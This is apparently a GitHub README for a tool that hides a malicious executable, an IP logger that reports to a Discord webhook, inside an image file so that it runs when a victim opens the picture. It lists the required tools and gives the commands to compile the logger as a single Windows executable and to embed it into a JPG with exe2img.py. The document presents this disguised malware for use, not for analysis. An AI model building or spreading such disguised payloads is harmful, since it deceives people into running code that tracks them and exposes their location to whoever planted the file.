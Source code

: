 ## Introduction
This project attempts to embed a malicious executable into an image file, such that the executable, in this case, a simple IP logger, is run whenever the image is opened.

## Requirements

[WinRAR](https://www.rarlab.com/download.htm?source=post_page-----81ee5339707e---------------------------------------)  
[Resource Hacker](https://www.angusj.com/resourcehacker/)  
[ImageMagick](https://imagemagick.org/script/download.php)

```
pip install wand
dotnet add package Newtonsoft.Json
dotnet add package System.Management
```

## Usage

1. Add your discord webhook in `Program.cs` and compile with
```
dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -o dist
```
2. Run `exe2img.py` to embed the exectuable into an image
```
python exe2img.py -e your_executable.exe -i your_image.jpg
```